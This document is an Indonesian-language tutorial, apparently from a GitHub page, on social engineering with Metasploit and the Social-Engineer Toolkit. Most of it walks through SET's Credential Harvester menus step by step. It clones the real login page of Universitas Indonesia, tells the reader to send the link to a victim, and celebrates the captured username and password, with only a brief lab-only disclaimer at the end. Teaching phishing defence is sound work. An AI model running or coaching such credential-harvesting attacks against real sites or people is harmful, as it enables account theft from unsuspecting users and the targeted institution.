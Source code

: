 # Eksploitasi dengan Metasploit + Social Engineering Toolkit (SET)

## A. Apa itu Social Engineering?

[Social Engineering](https://en.wikipedia.org/wiki/Social_engineering_(security)) atau yang sering disebut soceng adalah seni memanipulasi manusia agar memberikan informasi sensitif atau menjalankan tindakan tertentu.

Contoh serangan social engineering:

- Phishing (email atau website palsu)
- Fake update (pembaruan sistem palsu)
- USB drop (menyebar USB yang berisi malware)
- Malicious file (file berbahaya seperti `PDF`, `EXE`, atau `DOCX`)

## B. Instalasi dan Setup

### 1. Install SET (Social Engineering Toolkit):

   ```
   sudo apt update
   sudo apt install set
   ```

  Setup dan jalankan Metasploit:

  ```
  sudo msfdb init
  sudo msfconsole
  ```

  > Kalau belum diinstal Metasploit-nya, instal dengan: `sudo apt-get install metasploit-framework`

## C. Skema Serangan Umum

Contoh skenario:

- Penyerang membuat situs phishing kloning (fake login page) menggunakan `SET`.
- Tautan palsu dikirim melalui email yang menyamar sebagai aplikasi populer.
- Korban membuka tautan dan mengisi data login di situs palsu tersebut.
- Alternatif lain: korban diminta mengunduh `update sistem` palsu yang ternyata berisi `backdoor`.

## D. Praktik: Phishing

1. Jalankan tool SET:

   ```
   sudo setoolkit
   ```

   Tunggu sampai muncul menu utama dari tool SET:

   ```
      It's easy to update using the PenTesters Framework! (PTF)
   Visit https://github.com/trustedsec/ptf to update all your tools!


    Select from the menu:

      1) Social-Engineering Attacks
      2) Penetration Testing (Fast-Track)
      3) Third Party Modules
      4) Update the Social-Engineer Toolkit
      5) Update SET configuration
      6) Help, Credits, and About

     99) Exit the Social-Engineer Toolkit

   set> 
   ```

   Ini merupakan menu utama dari tool SET. Untuk melakukan serangan phishing pilih menu nomer `1` yaitu `Social-Engineering Attacks`.

   ```
      It's easy to update using the PenTesters Framework! (PTF)
   Visit https://github.com/trustedsec/ptf to update all your tools!


    Select from the menu:

      1) Spear-Phishing Attack Vectors
      2) Website Attack Vectors
      3) Infectious Media Generator
      4) Create a Payload and Listener
      5) Mass Mailer Attack
      6) Arduino-Based Attack Vector
      7) Wireless Access Point Attack Vector
      8) QRCode Generator Attack Vector
      9) Powershell Attack Vectors
     10) Third Party Modules

     99) Return back to the main menu.

   set>
   ```

   Setelah masuk ke dalam menu `Social-Engineering Attacks`, langkah selanjutnya pilih menu nomer `2` yaitu `Website Attack Vectors`.

   ```
      It's easy to update using the PenTesters Framework! (PTF)
   Visit https://github.com/trustedsec/ptf to update all your tools!


    Select from the menu:

      1) Java Applet Attack Method
      2) Metasploit Browser Exploit Method
      3) Credential Harvester Attack Method
      4) Tabnabbing Attack Method
      5) Web Jacking Attack Method
      6) Multi-Attack Web Method
      7) HTA Attack Method

     99) Return to Main Menu

   set:webattack>
   ```

   Pada menu ini kita pilih menu nomer `3` yaitu `Credential Harvester Attack Method`.

   ```
    The first method will allow SET to import a list of pre-defined web
    applications that it can utilize within the attack.

    The second method will completely clone a website of your choosing
    and allow you to utilize the attack vectors within the completely
    same web application you were attempting to clone.

    The third method allows you to import your own website, note that you
    should only have an index.html when using the import website
    functionality.
   
      1) Web Templates
      2) Site Cloner
      3) Custom Import

     99) Return to Webattack Menu

   set:webattack>
   ```

   Pada menu ini kita pilih menu nomer `2` yaitu `Site Cloner`.

   ```
   [-] Credential harvester will allow you to utilize the clone capabilities within SET
   [-] to harvest credentials or parameters from a website as well as place them into a report

   -------------------------------------------------------------------------------
   --- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS * IMPORTANT * ---

   The way that this works is by cloning a site and looking for form fields to
   rewrite. If the POST fields are not usual methods for posting forms this 
   could fail. If it does, you can always save the HTML, rewrite the forms to
   be standard forms and use the "IMPORT" feature. Additionally, really 
   important:

   If you are using an EXTERNAL IP ADDRESS, you need to place the EXTERNAL
   IP address below, not your NAT address. Additionally, if you don't know
   basic networking concepts, and you have a private IP address, you will
   need to do port forwarding to your NAT IP address from your external IP
   address. A browser doesn’t know how to communicate with a private IP
   address, so if you don't specify an external IP address if you are using
   this from an external perspective, it will not work. This isn't a SET issue
   this is how networking works.

   set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.1.42]:
   ```

   Pada tahap ini, kita diminta untuk memasukkan alamat IP yang akan digunakan sebagai tujuan `POST back`. Anda bisa langsung menekan `Enter` untuk menggunakan alamat IP default (yang terdeteksi otomatis).

   ```
   [-] SET supports both HTTP and HTTPS
   [-] Example: http://www.thisisafakesite.com
   set:webattack> Enter the url to clone: 
   ```

   Pada tahap ini kita diminta untuk memasukkan alamat url yang mau kita clone. disini debagai contoh, kita masukkan url login dari website login `SIMAK UI` (Universitas Indonesia).

   ```
   set:webattack> Enter the url to clone: https://penerimaan.ui.ac.id/login

   [*] Cloning the website: https://penerimaan.ui.ac.id/login
   [*] This could take a little bit...

   The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
   [*] The Social-Engineer Toolkit Credential Harvester Attack
   [*] Credential Harvester is running on port 80
   [*] Information will be displayed to you as it arrives below:
   ```

   Tahap selanjutnya kirim alamat IP kita ke korban melalui `E-mail` atau `pesan`, tunggu sampai korban memasukkan `Username/E-mail` dan `Password` yang benar.

   ```
   [*] WE GOT A HIT! Printing the output:
   POSSIBLE USERNAME FIELD FOUND: username=adminui@ui.ac.id
   POSSIBLE PASSWORD FIELD FOUND: password=adminui123
   PARAM: s=LOGIN
   PARAM: csrf_token=3e5281c44fe387ed6cc384978fd1257d82d501dc5147e86766fc578b3cf0e6ea
   [*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
   ```

   Boom...! Selamat Anda sudah mendapatkan `Username/E-mail` dan `Password` yang benar. Sekarang Anda bisa login dengan kredensial tersebut:

   ```
   username=adminui@ui.ac.id
   password=adminui123
   ```

## E. Etika & Hukum

- Dilarang menjalankan serangan ini di dunia nyata tanpa izin tertulis.
- Praktik hanya di lab/lab simulasi.
- Tujuan pembelajaran dan pengujian keamanan.
